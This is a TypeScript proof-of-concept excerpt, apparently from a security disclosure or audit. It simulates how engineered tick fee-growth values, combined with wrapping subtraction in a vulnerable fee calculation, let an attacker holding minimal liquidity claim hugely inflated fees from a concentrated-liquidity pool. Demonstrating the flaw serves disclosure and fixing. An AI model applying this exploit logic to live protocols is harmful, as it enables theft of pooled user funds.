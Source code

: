     console.log("\\nPhase 1: Engineered Tick States (Values are Q64.64 scaled)");
    console.log(`  tick_lower.FGO (O_L): ${tickLower_Sim.fee_growth_outside_0_x64} (${O_L_val/Q64_BIGINT} * Q64)`);
    console.log(`  tick_upper.FGO (O_U): ${tickUpper_Sim.fee_growth_outside_0_x64} (${O_U_val/Q64_BIGINT} * Q64)`);

    // Attacker's P_FIG_initial_snapshot is set when their position is opened.
    // Assume it was based on a non-exploitative state, e.g., 0 for simplicity.
    const attacker_P_FIG_initial_snapshot = 0n;
    const attacker_liquidity = 1n; // Minimal liquidity

    console.log("\\nPhase 2a: Attacker's Position State");
    console.log(`  Attacker P_FIG_initial_snapshot: ${attacker_P_FIG_initial_snapshot}`);
    console.log(`  Attacker Liquidity: ${attacker_liquidity}`);

    // Price moves out of range: tick_current < T_L
    let tick_current_exploiting = 500;
    console.log(`\\nPhase 2b: Price moved out of range (tick_current = ${tick_current_exploiting})`);

    // ProtocolPositionState Update (Corruption)
    let W_FIG = getFeeGrowthInsidePoc_Vulnerable(
        tickLower_Sim, tickUpper_Sim, tick_current_exploiting, current_fee_growth_global_0_x64_sim
    );
    let mock_protocol_position_state: MockProtocolPositionState = {
        current_fee_growth_inside_0_for_range: W_FIG
    };

    console.log("\\nPhase 2c: ProtocolPositionState Update (Corrupted by W_FIG)");
    console.log(`  Result of getFeeGrowthInsidePoc_Vulnerable (W_FIG): ${W_FIG}`);
    const expected_W_FIG = wrappingSubU128(O_L_val, O_U_val); // 100*Q64 .ws( 500*Q64 )
    console.log(`    Expected W_FIG = U128_MOD - (400 * Q64) = ${expected_W_FIG}`);
    // W_FIG / Q64_BIGINT = (2^128 - 400 * 2^64) / 2^64 = 2^64 - 400
    console.log(`    W_FIG in Q64 units (approx): 2^64 - ${ (O_U_val - O_L_val) / Q64_BIGINT } = ${W_FIG / Q64_BIGINT}`);


    // Attacker Claims Inflated Fees
    const claim_vulnerable = calculateClaimableDeltaPoc_Vulnerable(
        mock_protocol_position_state.current_fee_growth_inside_0_for_range, // W_FIG
        attacker_P_FIG_initial_snapshot, // 0n
        attacker_liquidity
    );

    console.log("\\nPhase 2d: Attacker Claims Fees (Vulnerable Path)");
    console.log(`  Delta for user (W_FIG.wrapping_sub(0)) (raw FIG units): ${claim_vulnerable.delta_raw}`);
    console.log(`  Tokens Owed (scaled by liquidity=1, raw token units if FIG was 1:1): ${claim_vulnerable.tokens_owed_scaled_U128}`);
    console.log(`  Equivalent full tokens owed (unscaled from Q64): ${claim_vulnerable.tokens_owed_scaled_U128 / Q64_BIGINT}`);

    const U64_MAX = (1n << 64n) - 1n;
    if (claim_vulnerable.tokens_owed_scaled_U128 <= U64_MAX && claim_vulnerable.tokens_owed_scaled_U128 > 0n) {
        console.log("    This inflated amount would NOT be zeroed by to_underflow_u64() and could be claimed.");
    } else if (claim_vulnerable.tokens_owed_scaled_U128 === 0n) {
        console.log("    The scaled amount is 0 (possibly due to P_FIG_initial matching W_FIG or specific O_L/O_U).");
    } else {
        console.log("    This inflated amount WOULD be zeroed by to_underflow_u64() because it exceeds u64::MAX.");
    }
